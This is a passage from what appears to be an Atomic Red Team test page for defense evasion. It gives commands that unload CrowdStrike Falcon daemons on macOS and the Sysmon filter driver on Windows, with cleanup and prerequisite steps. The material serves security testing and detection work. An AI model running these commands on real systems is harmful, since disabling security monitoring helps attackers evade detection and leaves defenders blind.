 
#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo launchctl unload #{falcond_plist}
sudo launchctl unload #{userdaemon_plist}
```

#### Cleanup Commands:
```sh
sudo launchctl load -w #{falcond_plist}
sudo launchctl load -w #{userdaemon_plist}
```





<br/>
<br/>

## Atomic Test #10 - Unload Sysmon Filter Driver
Unloads the Sysinternals Sysmon filter driver without stopping the Sysmon service. To verify successful execution, o verify successful execution,
run the prereq_command's and it should fail with an error of "sysmon filter must be loaded".

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| sysmon_driver | The name of the Sysmon filter driver (this can change from the default) | string | SysmonDrv|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
fltmc.exe unload #{sysmon_driver}
```

#### Cleanup Commands:
```cmd
sysmon -u -i > nul 2>&1
sysmon -i -accepteula -i > nul 2>&1
%temp%\Sysmon\sysmon.exe -u > nul 2>&1
%temp%\Sysmon\sysmon.exe -accepteula -i > nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Sysmon must be downloaded
##### Check Prereq Commands:
```powershell
if ((cmd.exe /c "where.exe Sysmon.exe 2> nul | findstr Sysmon 2> nul") -or (Test-Path $env:Temp\Sysmon\Sysmon.exe)) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "$env:TEMP\Sysmon.zip"
Expand-Archive $env:TEMP\Sysmon.zip $env:TEMP\Sysmon -Force
Remove-Item $env:TEMP\Sysmon.zip -Force
```